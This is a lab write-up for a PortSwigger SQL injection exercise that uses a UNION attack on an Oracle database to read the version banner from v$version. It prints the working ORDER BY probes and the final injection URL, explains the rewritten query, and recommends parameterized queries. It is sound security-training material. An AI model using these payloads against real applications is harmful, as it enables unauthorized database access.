

**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

## Background

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database. This vulnerability occurs when an application concatenates user input directly into a SQL query without proper sanitization or escaping.

In **UNION-based SQL injection**, an attacker can append a `UNION SELECT` statement to the original query to retrieve data from other tables. For this attack to succeed, two conditions must be met:

1. The injected query must return the **same number of columns** as the original query.
2. The data types in each column must be **compatible**.

When targeting **Oracle databases**, the `v$version` system view contains version information that can be enumerated through SQL injection. This view returns columns including `BANNER`, `BANNER_FULL`, `BANNER_LEGACY`, and `CON_ID`.

---

## My Approach

1. **Determine the number of columns** by repeating `ORDER BY` until an error occurs:
   ```
   https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+1--
   https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+ORDER+BY+2--
   ```
   The application accepted `ORDER BY 2`, confirming the query returns **2 columns**.

2. **Identify the Oracle version view**: Since Oracle stores version information in the `v$version` system view, I planned to query the `BANNER` column from this view.

3. **Craft the UNION injection**: With 2 columns confirmed, I constructed a payload that returns the `BANNER` column from `v$version` and `NULL` for the second column to match the column count.

4. **Final injection**:
   ```
   UNION SELECT BANNER, NULL FROM v$version--
   ```



---

## Payload Used

```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

**Decoded for clarity:**
```
category=Gifts' UNION SELECT BANNER, NULL FROM v$version--
```

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

After injection, it became:

```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT BANNER, NULL FROM v$version--' AND released = 1
```

### Breakdown

| Component | Purpose |
|-----------|---------|
| `'` | Closes the original string parameter in the `WHERE` clause |
| `UNION SELECT BANNER, NULL` | Appends a second query returning the Oracle version banner with a matching NULL column |
| `FROM v$version` | Oracle system view containing database version information |
| `--` | SQL comment sequence that neutralizes the rest of the original query (`' AND released = 1`) |

Since the number of columns matched (2 columns) and `NULL` is compatible with most data types, the database executed the query successfully and displayed the Oracle version string in the response.

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](01.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

---

## Key Takeaway

> When targeting **Oracle databases**, the `v$version` system view is a reliable source for version enumeration via UNION-based SQL injection. Always verify the column count and data type compatibility before crafting your payload. Additionally, never trust user input—any input from the user, including URL parameters, must be treated as potentially malicious. The simplest and most effective defense is to use **parameterized queries** throughout an application to handle all database interactions involving user-supplied data.

---
